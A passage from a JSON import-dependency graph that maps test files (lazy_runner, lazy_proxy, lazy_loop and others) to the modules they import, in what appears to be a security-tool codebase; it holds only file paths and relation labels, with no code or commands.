"tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "cli/commands/lazyops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_agent.py", "target": "modules/lazy_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_engine.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_engine.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_engine.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_engine.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_engine.py", "target": "cli/commands/lazyops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_evidence.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_evidence.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_evidence.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_evidence.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_skills.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/custom_tools.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/workspace.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/selfupdate.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_loop.py", "target": "modules/lazy_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli/lazy_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli/lazy_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli/lazy_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli/commands/lazyloop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli/lazy_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/evidence.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_parity.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_proxy.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "core/terminal_guard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "core/autonomous.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/loop_progress.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_skills.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "cli/commands/exploit_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "cli/commands/lazyops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "cli/commands/session_ops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/command_executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/command_executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/command_executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/command_executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/command_executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "modules/tools/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_runner.py", "target": "cli/commands/lazyloop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_streaming.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": 